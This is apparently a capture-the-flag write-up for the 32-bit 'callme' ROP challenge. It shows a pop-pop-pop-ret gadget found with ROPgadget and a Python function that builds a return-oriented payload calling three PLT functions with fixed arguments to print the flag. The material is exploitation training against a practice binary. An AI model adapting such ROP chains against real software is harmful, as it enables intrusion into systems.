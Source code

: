 # callme - 32bit

This challenge involves consistently calling functions imported via the PLT.


Instructions:
```
You must call `callme_one()`, `callme_two()` and `callme_three()` in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag.
```
As we need to impersonate a `call` function we need to pop all three arguments off of the stack into registers. We will require gadgets to perform this.

ROPGadget shows us the perfect gadget:
```
0x080488a9 : pop esi ; pop edi ; pop ebp ; ret
```

This will place the parameters in the correct place.

This gives us a structure per call like so:

```python
def call_function(function):

    payload = b""
    payload += function
    payload += pop_gadget
    payload += p32(1)
    payload += p32(2)
    payload += p32(3)
    return payload
```

This will then be repeated for each function. Running this chain produces the flag